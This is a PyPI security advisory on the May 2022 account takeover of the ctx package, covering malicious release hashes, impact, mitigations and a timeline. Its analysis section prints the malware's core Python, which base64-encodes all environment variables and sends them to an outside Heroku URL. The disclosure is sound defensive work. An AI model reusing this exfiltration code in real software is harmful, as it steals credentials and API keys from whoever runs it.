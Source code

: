 =========================================================
Account Takeover and Malicious Replacement of ctx Project
=========================================================

Summary
=======

The ``ctx`` hosted project on PyPI was taken over via user account compromise
and replaced with a malicious project which contained runtime code which
collected the content of ``os.environ.items()`` when instantiating ``Ctx``
objects. The captured environment variables were sent as a base64 encoded query
parameter to a heroku application running at ``https://anti-theft-web.herokuapp.com``.

Between 2022-05-14T19:18:36Z and 2022-05-24T10:07:17Z the release files
listed below were hosted by PyPI at various times containing this malicious
payload.

If you installed the package between May 14, 2022 and May 24, 2022, and your
environment variables contain sensitive data like passwords and API keys (like
``AWS_ACCESS_KEY_ID`` and ``AWS_SECRET_ACCESS_KEY``), we advise you rotate your
passwords and keys, then perform an audit to determine if they were exploited.

+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| File                                                                                                                                                                                       | Upload Time              | sha 256 digest                                                   |
+============================================================================================================================================================================================+==========================+==================================================================+
| `ctx-0.2.2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/4c/e2/f78e95454725d45602611560682cc1929ee18af496d2a2bc5430278d9153/ctx-0.2.2-py2.py3-none-any.whl>`_              | 2022-05-21T12:41:57.066Z | acf05948020a86092943b40d6e5c5b51ec6087923f58942216b9c5e8b853d3fb |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-1-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/55/2f/62dc2487337bbc3d761c8117f255a9ac234888bf46467455e5315814b737/ctx-0.1.2-1-py2.py3-none-any.whl>`_          | 2022-05-21T12:54:51.344Z | 5dc1bc1404c27699ee40fd71eeb586d6842e1478f9f14dab5d1763fc20dff3d3 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-1.tar.gz <https://files.pythonhosted.org/packages/41/7a/2e658c7805560d0dcce50a469a0b68f48e78b3f3aa1d7431249f046f60f2/ctx-0.1.2-1.tar.gz>`_                                      | 2022-05-21T12:54:53.384Z | b40297af54e3f99b02e105f013265fd8d0a1b1e1f7f0b05bcb5dbdc9125b3bb5 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.3-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/3f/54/c129c06f63fd7ea2c38fe933a2152ce40467de1db21739f117f6d166d90b/ctx-0.2.3-py2.py3-none-any.whl>`_              | 2022-05-21T16:17:17.016Z | f45a256c2f7aace635a82118dfadf6f6023315fc73d7d473b99acc40ecb12278 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.3.tar.gz <https://files.pythonhosted.org/packages/08/0e/af68c739501eb7734d59fe1acefbf9248a9ebcb2691eabad20e1d3fd6a75/ctx-0.2.3.tar.gz>`_                                          | 2022-05-21T16:17:19.599Z | 15103c1af07a9a091dfe3b6c6dda9f1f11fd65bd9a878a9aaa79aee6bb8722cc |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.1-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/dd/68/27389f6a566a102de83539bc69c506085e8b8ac509119a4f17990e3bb4cb/ctx-0.2.2.1-py2.py3-none-any.whl>`_          | 2022-05-21T16:19:40.081Z | 5b484f642eaf4f5708d446e93f0f698f57bbece49d27808a59980358abdbe590 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.1.tar.gz <https://files.pythonhosted.org/packages/f0/e6/f4effbd2483d061edbe62cd8107700fdaf7e6e5843cea70c8c859b5d0fca/ctx-0.2.2.1.tar.gz>`_                                      | 2022-05-21T16:19:42.337Z | f7342f723517f24b13f2ab2f702abb78692288138c1053dbe64bccd8bc1175d5 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.4-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/b0/fe/a2d322d861f73131c61020ad8e96f3b2a0bb4784e640e01e29a5be1454fe/ctx-0.2.4-py2.py3-none-any.whl>`_              | 2022-05-21T16:20:21.645Z | 280cc6f69a1cd80c9bf95272237d5620d14f226111066df1f0c0855722a89257 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.4.tar.gz <https://files.pythonhosted.org/packages/8a/c4/04990148f252dcc62dec759b09580972f02c9fc49056c8d69fe7ff92b6f3/ctx-0.2.4.tar.gz>`_                                          | 2022-05-21T16:20:23.581Z | 9c1bb795d660ddb0c42166e546af06230443cbcda8780f0f3541017a8659e7cd |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2-2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/b6/50/fd14560fac446587b442446871f91c7702631ee09e9b6b76221308ff7a6b/ctx-0.1.2-2-py2.py3-none-any.whl>`_          | 2022-05-21T16:24:52.810Z | e212e12d0983a9d81812f14fac8c207d1dc67a4ec9043af9aea0799b528dafa1 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.5-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/09/ff/9ef8bb7abebc4c680fa3a497ea694f66273b0d3eafa8d5ce005fbf88eb1e/ctx-0.2.5-py2.py3-none-any.whl>`_              | 2022-05-21T16:27:18.221Z | 86b8e1e529e9a566ac7ce7d85ffe4e5cf69df50cb0e6e38fbb6e34e6965815a0 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.5.tar.gz <https://files.pythonhosted.org/packages/1e/4e/8cdcf228d1d2dd666eacbde59a0cfa994fe58af7287f2272dcd30717a584/ctx-0.2.5.tar.gz>`_                                          | 2022-05-21T16:27:19.867Z | 34c0ae0c77160355eefa8e43b1d8c68df31c448b5a28fe78f32300bf89eb0813 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.6-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/33/ec/7771d928a431dabd4440dc420ed03029eddc4bd7067ffd0af49052174c6a/ctx-0.2.6-py2.py3-none-any.whl>`_              | 2022-05-21T16:28:19.342Z | 04b150ce4dbd2bcf054a9c2b676649f9da60b7ce2c74f31ebc4e1070dcc0fb94 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.6.tar.gz <https://files.pythonhosted.org/packages/b7/0d/00ed86e3e8363820c05d53f8c850dd88137f9b8f6ef1eed255a63ab5cbbd/ctx-0.2.6.tar.gz>`_                                          | 2022-05-21T16:28:21.490Z | 4fdfd4e647c106cef2a3b2503473f9b68259cae45f89e5b6c9272d04a1dfaeb0 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.tar.gz <https://files.pythonhosted.org/packages/19/8d/08520985e1433086304aa6e9671a47a94b3b949ca605bc883c1b15d03b68/ctx-0.2.tar.gz>`_                                              | 2022-05-14T23:52:46.207Z | 6c98fe4afa021885d5add151049aec7d812a31fb9a03bf5cdedefd42229b6b90 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.1.tar.gz <https://files.pythonhosted.org/packages/5a/71/74e1ea615c12401ffe569e3b486d6936e25bbeaeae981280a90c85aa2483/ctx-0.2.1.tar.gz>`_                                          | 2022-05-15T00:17:20.862Z | cdda4a2ec16bd52862e9b18aaa5525468318ba544fe426daeebc3d28e2b72897 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.2.2.tar.gz <https://files.pythonhosted.org/packages/83/2a/ea9818cdb7256ef86546d56c893d8c6504208766763e838583bded1353d4/ctx-0.2.2.tar.gz>`_                                          | 2022-05-15T00:44:53.658Z | b7644fa1e0872780690ce050c98aa2407c093473031ab5f7a8ce35c0d2fc077e |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.4.tar.gz <https://files.pythonhosted.org/packages/be/1e/71f23d7b4e6a7eed404b28f5fcaa3594b76d24701ef16861773887fc82b1/ctx-0.1.4.tar.gz>`_                                          | 2022-05-14T19:18:36.994Z | 17714ef9ff6d2eabc631638e2f092115fa569843f9ab45b6e9da23912b72f482 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+

The original and sole releases prior to the compromise are still available as:

+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| File                                                                                                                                                                                       | Upload Time              | sha 256 digest                                                   |
+============================================================================================================================================================================================+==========================+==================================================================+
| `ctx-0.1.2-py2.py3-none-any.whl <https://files.pythonhosted.org/packages/11/87/f6ab88cd29495120e255a092397095fb9a6ed0918a01fe104ca3389341df/ctx-0.1.2-py2.py3-none-any.whl>`_              | 2014-12-19T07:31:07.162Z | beb1628d6624b19c04a065fab6751feace594fd4072b3e649cafdd765182e441 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+
| `ctx-0.1.2.tar.gz <https://files.pythonhosted.org/packages/48/aa/94bc2fdfe7a524cde4275c115bcc0185e6a58fde460568c513242b314b73/ctx-0.1.2.tar.gz>`_                                          | 2014-12-19T07:31:04.062Z | edbff45647936da3cdadcfeaa64ee9f62b8ad629a5cea8caa4b63f5dc08b99c4 |
+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+--------------------------+------------------------------------------------------------------+

* Disclosure date: **2022-05-24** (Response initiated via reports submitted via security policy on `pypi.org <https://pypi.org/security/>`_)
* Disclosed by: Multiple Parties


Analysis and Mitigation
=======================

Once notified, a PyPI administrator confirmed that all current releases on the
index contained a similar exfiltration mechanism in the contents of the
``ctx.py`` file of the release files::

    class Ctx(dict):

        def __init__(self):

            self.sendRequest()

        def sendRequest(self):
            string = ""
            for _, value in os.environ.items():
                string += value+" "

            message_bytes = string.encode('ascii')
            base64_bytes = base64.b64encode(message_bytes)
            base64_message = base64_bytes.decode('ascii')

            response = requests.get("https://anti-theft-web.herokuapp.com/hacked/"+base64_message)

**Note:** Above code is reduced to core mechanism for clarity.

With the malicious nature of all release files confirmed, the PyPI
administrator used existing tools to:

* Remove the project, all releases, and all release files from the index
* Simultaneously prohibit the name ``ctx`` from being re-registered without
  admin intervention
* Freeze the compromised user account of the owner

The activity log of the user, action log on the project, metadata for all
historical uploads (including malicious), archives of the files, and their
locations in object storage were backed up for further analysis.

WHOIS records were then queried to confirm that the domain associated with the
owner user account had been recently registered on 2022-05-14T18:40:05Z.
Activity logs for the owner user account were then used to confirm that
malicious activity including password reset and uploads commenced just 12
minutes after domain registration. No mechanism for multi factor authentication
was enabled for the owner user account.

The PyPI administrators made the decision *not* to restore the original files
at this time, as PyPI policies state that actions on the index including
deletion are immutable.

If there is sufficient reason to restore the removed files a process that
complies with that contract will need to be developed.


Impact Assessment
=================

The ``ctx`` project was registered and uploaded to PyPI in 2014. According to
Libraries.io, the project on PyPI that declares it as a dependency is
``context-engine``. No known repositories that Libraries.io analyzes declares
``ctx`` as a dependency. This is additionally confirmed by
https://deps.dev/pypi/ctx/0.1.2/dependents.

Before the malicious releases were uploaded, ``ctx`` saw on average 1600
downloads per day. After malicious releases were uploaded, downloads rose to a
peak of 4548 on 2022-05-20. Rises like these are common after new project
releases due to mirrors of PyPI syncing in new changes.

In total we estimate that 27,000 malicious versions of this project were
downloaded from PyPI, with the majority of "overage" downloads being driven by
mirrors.

This hypothesis is supported by data from analysis of requests to
https://pypi.org/simple/ctx/ showing no associated rise in simple traffic from
installers.

.. image:: ./2022-05-24-ctx-domain-takeover-chart.png
   :width: 400
   :alt: Chart showing simple request and download counts for ctx project on pypi

Potential Future Mitigation
===========================

Domain takeovers are a known attack vector for compromising individual user
accounts on PyPI. PyPI administrators have responded to reports in the past of
publicly visible email addresses associated with project metadata containing
expired domains, which happened to match the domains of owner user accounts for
projects.

Performing this analysis on an ongoing basis and freezing accounts with expired
or near expiration domains is a potential mitigation that could protect absent
maintainers in the future, at the cost of increased support burden on the team
of PyPI moderators and admins.

Further Reccomendations
=======================

We also advise all PyPI users, but especially project maintainers, to enable
multi factor authentication on their PyPI accounts following the references at
https://pypi.org/help/#twofa.

Additionally, version-pinning and using `hash checking mode
<https://pip.pypa.io/en/stable/topics/secure-installs/#hash-checking-mode>`_
would prevent this attack, which depends on users automatically upgrading to
the latest available version at install-time.

The safety and pip-audit projects can be used to check for known
vulnerabilities in your dependencies:

* https://github.com/pyupio/safety
* https://github.com/trailofbits/pip-audit

You can join the security-sig mailing list to discuss Python security:
https://mail.python.org/mailman3/lists/security-sig.python.org/

Timeline
========

* Unknown: Domain hosting email for ``ctx`` owner user account expired
* 2022-05-10: Password reset attempted for ``ctx`` owner user account
* 2022-05-14T18:40:05Z: Domain associated with ``ctx`` owner user account registered
* 2022-05-14T18:52:40Z: ``ctx`` owner user account password successfully reset
* 2022-05-14T19:18:36Z - 2022-05-21T12:41:57Z: Malicious versions of ``ctx`` project uploaded
* 2022-05-21T12:50:23.107588: Original benign versions of ``ctx`` removed from index
* 2022-05-24: Reports of project takeover submitted on multiple channels including security@python.org
* 2022-05-24T10:07:17Z: All malicious releases of ``ctx`` project removed from index, project name prohibited from re-registration, and owner user account frozen
